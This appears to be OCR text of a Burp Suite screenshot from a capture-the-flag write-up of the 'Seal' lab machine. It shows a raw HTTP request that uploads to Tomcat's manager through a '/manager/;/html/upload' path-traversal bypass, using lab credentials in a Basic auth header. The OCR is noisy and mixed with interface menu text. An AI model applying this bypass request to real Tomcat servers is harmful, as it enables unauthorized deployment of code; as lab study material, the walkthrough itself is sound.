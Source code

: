 ![](Screenshots/Pasted%20image%2020210921133230.png)

Burp Suite Community Edition v2021.8.2 - Temporary Project
Burp
Project Intruder Repeater
Dashboard Target Proxy
1 X 2 X 3 x 4 x
Window Help
Intruder
Repeater
Sequencer
Decoder
Comparer
Logger
Extender
Project options
User options
Learn
Send
Cancel
Request
Response
Pretty Raw
Hex Render in E
TM
THE
APACHE
SOFTWARE FOUNDATION
Pretty Raw Hex in E
1 POST /manager/;
:/html/upload; jsessionid=9C8E3AF9531 2ABD51FAECA000567BD28?org.apache.catalina.filters. CSRF_NO
NCE=607A1F803810092896F10EECAABAEF77 HTTP/1.1
2 Host: seal.htb
3 Cookie: JSESSIONID=9C8E3AF9531 2ABD51FAECA000567BD28
4 Content-Length: 1312
5 Cache-Control: max-age=0
6 Authorization: Basic dG9tY2F0Oj QyTXJIQmYqejh7Wile
7 Sec-Ch-Ua: "Not A; Brand"; v="99", "Chromium"; v="92"
8 Sec-Ch-Ua-Mobile: ?O
9 Upgrade-Insecure-Requests: 1
10 Origin: https://seal.htb
11 Content-Type: multipart/form-data; boundary=----WebKit FormBoundarykz6x4U9a OxgFnIFM
12 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko)
Chrome/92.0.4515.159 Safari/537.36
13 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9, image/avif,image/webp, image/apng,*/*;q=
Tomcat Web Application Manager
Message: OK
